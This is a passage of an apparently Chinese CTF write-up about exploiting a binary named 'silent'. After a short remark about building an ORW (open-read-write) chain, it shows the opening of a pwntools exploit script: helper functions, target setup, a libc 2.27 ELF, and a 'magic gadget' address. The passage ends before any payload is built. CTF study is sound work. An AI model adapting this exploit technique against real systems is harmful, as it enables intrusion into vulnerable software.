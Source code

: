 效果：

[![](assets/1699929883-6be63881b47f1a1fa870f30e5034dfaf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231105004716-cf8c7668-7b31-1.png)

接下来直接 orw 构造链就好了

完整 exp 如下：

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./silent')
#p = remote('172.10.0.8', 9999)
libc=ELF('./libc-2.27.so')
elf=ELF('./silent')

def duan():
    gdb.attach(p)
    pause()

vul=0x4006A0

#0x00000000004007e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret

magic_gadget=0x00000000004007e8
read_got=0x600FE0

bss=elf.bss()
leak('bss',bss)

```